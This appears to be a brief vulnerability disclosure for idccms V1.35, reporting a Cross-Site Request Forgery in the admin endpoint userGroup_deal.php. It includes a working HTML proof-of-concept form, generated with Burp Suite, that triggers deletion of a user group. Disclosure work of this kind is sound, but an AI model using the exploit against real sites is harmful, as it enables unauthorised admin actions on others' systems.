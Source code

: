 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/userGroup_deal.php?mudi=del&dataType=&dataTypeCN=%E4%BC%9A%E5%91%98%E7%BB%84&theme=%E4%B8%80%E6%98%9F%E7%94%A8%E6%88%B7&dataID=1

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/userGroup_deal.php?mudi=del&dataType=&dataTypeCN=%E4%BC%9A%E5%91%98%E7%BB%84&theme=%E4%B8%80%E6%98%9F%E7%94%A8%E6%88%B7&dataID=1" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
